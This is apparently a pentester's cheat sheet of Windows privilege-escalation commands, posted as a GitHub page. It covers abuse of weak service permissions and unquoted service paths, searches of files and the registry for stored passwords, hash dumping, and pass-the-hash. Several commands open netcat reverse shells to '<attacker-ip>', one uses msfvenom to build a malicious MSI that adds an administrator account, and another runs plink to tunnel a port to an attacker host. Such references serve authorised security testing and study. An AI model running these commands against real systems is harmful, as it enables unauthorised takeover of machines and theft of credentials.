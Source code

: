 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================

Writable Service Executables
----------------------------

If a services is found which runs as SYSTEM or Administrator level users, and it has weak file permissions, we may be able to replace the service binary, restart the service, and escalate privileges.

Use wmic to extract a list of service executables:

.. code-block:: none

    for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\services.txt

If wmic is not available:

.. code-block:: none

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

Then use either accesschk.exe, cacls, or icacls to list the access permissions associated with each service executable:

.. code-block:: none

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c accesschk.exe /accepteula -qv "%a" >> accesschk.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c cacls "%a" >> cacls.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c icacls "%a" >> icacls.txt

With accesschk results, look for the following permissions:

.. csv-table::
    :header: "Permission", "Use Case"

    "SERVICE_ALL_ACCESS", "Can do anything."
    "SERVICE_CHANGE_CONFIG", "Can reconfigure the service binary."
    "WRITE DAC", "Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG."
    "WRITE_OWNER", "Can become owner, reconfigure permissions."
    "GENERIC_WRITE", "Inherits SERVICE_CHANGE_CONFIG"
    "GENERIC_ALL", "Inherits SERVICE_CHANGE_CONFIG"

With cacls and icacls, look for (F)ull Access, (M)odify access, (W)rite-only access, (WDAC) write DAC, or (WO) write owner.

Writable Service Objects
------------------------

Use accesschk.exe to find writable service objects:

.. code-block:: none

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

Query a vulnerable service:

.. code-block:: none

    sc qc <service>

Update the service binary path:

.. code-block:: none

    sc config <service> binpath= "<command>"

Update the name of the account which a service runs as:

.. code-block:: none

    sc config upnphost obj= ".\LocalSystem" password= ""

Stop / Start a service:

.. code-block:: none

    wmic service <service> call stopservice
    wmic service <service> call startservice

    net stop <service>
    net start <service>

    sc stop <service>
    sc start <service>

If the service fails to start because of a dependency, you can start the dependency manually, or remove the dependency:

.. code-block:: none

    sc config <service> depend= ""

All-in-one comnand:

.. code-block:: none

    sc config <service> binPath= "<command>" depend= "" start= demand obj= ".\LocalSystem" password= ""
</details>
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

----------------------

Find unquoted service paths:

.. code-block:: none

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

If the unquoted service path is :code:`C:\Program Files\path to\service.exe`, you can place a binary in any of the following paths:

.. code-block:: none

    C:\Program.exe
    C:\Program Files.exe
    C:\Program Files\path.exe
    C:\Program Files\path to.exe
    C:\Program Files\path to\service.exe

</details>
<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================

Find passwords in arbitrary files:

.. code-block:: none

    findstr /si password *.txt *.xml *.ini

Find strings in filenames:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Find passwords in all files:

.. code-block:: none

    findstr /spin "password" *.*

Common files which contain passwords:

.. code-block:: none

    type c:\sysprep.inf
    type c:\sysprep\sysprep.xml
    type c:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
    dir c:*vnc.ini /s /b
    dir c:*ultravnc.ini /s /b
    dir c:\ /s /b | findstr /si *vnc.ini

Search for passwords in the registry:

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================

The following commands can be used to dump password hashes:

.. code-block:: none

    wce32.exe -w
    wce64.exe -w
    fgdump.exe

Remote
------

Pass the hash remotely to gain a shell:

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd

Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd

Alternative:

.. code-block:: none

    export SMBHASH=<hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd

Local
-----

Pass the hash locally using runas:

.. code-block:: none

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

Pass the hash locally using PowerShell:

.. code-block:: none

    secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

Pass the hash locally using psexec:

.. code-block:: none

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================

Search for services listening on the loopback interface:

.. code-block:: none

    netstat -ano | findstr "LISTEN"

Use plink.exe to forward the loopback port to a port on our attacking host (via SSH):

.. code-block:: none

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>

</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Both the following registry values must be set to "1" for this to work:

.. code-block:: none

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Create a malicious MSI:

.. code-block:: none

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi

Use msiexec to run the malicious MSI:

.. code-block:: none

    msiexec /quiet /qn /i C:\evil.msi

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

If there are stored credentials, we can run commands as that user:

.. code-block:: none

    $ cmdkey /list

    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator

Execute commands by using runas with the /savecred argument. Note that full paths are generally needed:

.. code-block:: none
</details>



    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <attacker-port> -e cmd.exe"
